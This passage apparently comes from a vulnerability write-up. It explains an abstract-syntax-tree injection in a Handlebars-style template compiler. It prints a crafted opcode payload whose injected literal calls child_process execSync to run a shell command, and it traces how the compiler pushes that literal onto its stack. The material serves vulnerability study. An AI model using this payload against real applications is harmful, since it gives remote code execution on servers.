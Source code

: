 ### Example AST Exploit

```
{
  "opcodes": [
    { "opcode": "pushLiteral", "args": ["function () {throw new Error(process.mainModule.require('child_process').execSync('dir').toString())}()"] },
    { "opcode": "pushProgram", "args": [undefined] },
    { "opcode": "pushProgram", "args": [undefined] },
    { "opcode": "emptyHash", "args": [undefined] },
    { "opcode": "getContext", "args": [0] },
    { "opcode": "lookupOnContext", "args": [["undefined"], true, true, false] },
    { "opcode": "invokeHelper", "args": [1, "undefined", true] },
    { "opcode": "append", "args": [] }
  ],
  "options": { "data": true, "isSimple": true, "knownHelpers": { "helperMissing": true } }
}
```

Code:

```
this[opcode.opcode].apply(this, opcode.args);
this["pushLiteral"].apply(this, ["function () {throw new Error(process.mainModule.require('child_process').execSync('dir').toString())}()"]);
```

The `pushLiteral` function is called:

```
pushLiteral: function (value) {
  this.pushStackLiteral(value);
},

pushStackLiteral: function (item) {
  this.push(new Literal(item));
},
```

Malicious code is placed on the stack:

```
push: function (expr) {
  if (!(expr instanceof Literal)) {
    expr = this.source.wrap(expr);
  }
  this.inlineStack.push(expr);
  return expr;
}
```

Stack:

```
inlineStack = [new Literal("function () {throw new Error(process.mainModule.require('child_process').execSync('dir').toString())}()")]
```
